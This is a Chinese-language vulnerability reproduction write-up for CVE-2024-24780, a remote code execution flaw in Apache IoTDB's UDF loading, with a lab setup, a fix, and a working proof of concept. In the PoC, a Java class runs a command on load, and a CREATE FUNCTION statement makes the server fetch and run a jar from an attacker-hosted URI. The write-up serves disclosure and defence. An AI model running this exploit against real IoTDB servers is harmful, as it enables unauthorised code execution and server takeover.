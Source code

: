 # Apache IoTDB UDF 远程代码执行漏洞 CVE-2024-24780

## 漏洞描述

Apache IoTDB（物联网数据库）是支持收集、存储、管理与分析物联网时序数据的软件系统。CVE-2024-24780 中，攻击者在具有创建 UDF 的权限下可构造恶意请求造成远程代码执行，控制服务器。

IoTDB 支持两种方式加载 UDF（用户自定义函数）：

- 手动部署：将包含 UDF 的 JAR 包放置于每个节点的指定目录（如 `ext/udf）`。
- URI 自动加载：在注册 UDF 时指定远程 URI，IoTDB 会自动从该地址下载 JAR 包并分发到集群中的各个节点。

攻击者可以通过 URI 自动加载的方式，指定一个恶意远程 URI。IoTDB 将从恶意远程 URI 加载包含恶意代码的 JAR 包，并分发到集群中的各个节点执行。

参考链接：

- https://iotdb.apache.org/
- http://www.openwall.com/lists/oss-security/2025/05/14/2
- https://lists.apache.org/thread/xphtm98v3zsk9vlpfh481m1ry2ctxvmj

## 漏洞影响

```
1.0.0 <= Apache IoTDB < 1.3.4
```

## 环境搭建

### 启动 IoTDB

docker-compose.yml

```
services:
  iotdb:
    image: apache/iotdb:1.2.0-standalone
    container_name: iotdb
    ports:
      - "6667:6667"
      - "31999:31999"
      - "8181:8181"
```

执行如下命令启动一个 Apache IoTDB 1.2.0 版本的服务器：

```
docker-compose up -d
```

查看启动情况：

```
docker ps
```

![](Public/Awesome-POC/数据库漏洞/images/Apache%20IoTDB%20UDF%20远程代码执行漏洞%20CVE-2024-24780/image-20250519141116383.png)

### 安装 Cli 命令行

下载 [apache-iotdb-1.2.0-cli-bin.zip](https://archive.apache.org/dist/iotdb/1.2.0/)：

```
wget https://archive.apache.org/dist/iotdb/1.2.0/apache-iotdb-1.2.0-cli-bin.zip
unzip apache-iotdb-1.2.0-cli-bin.zip
```

启动 Cli，命令行客户端是交互式的，如果一切就绪，我们可以看到欢迎标志和声明:

```
cd apache-iotdb-1.2.0-cli-bin/
sbin/start-cli.sh -h your-ip -p 6667 -u root -pw root
```

![](Public/Awesome-POC/数据库漏洞/images/Apache%20IoTDB%20UDF%20远程代码执行漏洞%20CVE-2024-24780/image-20250519141502540.png)

## 漏洞复现

编写类 `org.example.EvilClass`，将其编译为 `poc.jar`，将编译好的 jar 文件上传到 vps 进行托管。此处我们的恶意类中执行的命令是 `touch /tmp/awesome_poc`：

```java
package org.example;

public class EvilClass {
    static {
        try {
            Runtime.getRuntime().exec("touch /tmp/awesome_poc");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

通过 URI 自动加载，在 IoTDB 中注册恶意 UDF：

```
CREATE FUNCTION evilFunc AS 'org.example.EvilClass' USING URI 'http://<your-vps-ip>/poc.jar';
```

![](Public/Awesome-POC/数据库漏洞/images/Apache%20IoTDB%20UDF%20远程代码执行漏洞%20CVE-2024-24780/image-20250519142349138.png)

IoTDB 会从我们的 vps 下载 `poc.jar`，加载恶意类并执行命令 。可以看到，`touch /tmp/awesome_poc` 已经执行成功：

![](Public/Awesome-POC/数据库漏洞/images/Apache%20IoTDB%20UDF%20远程代码执行漏洞%20CVE-2024-24780/image-20250519142545665.png)

## 漏洞修复

升级至 1.3.4 及以上版本。
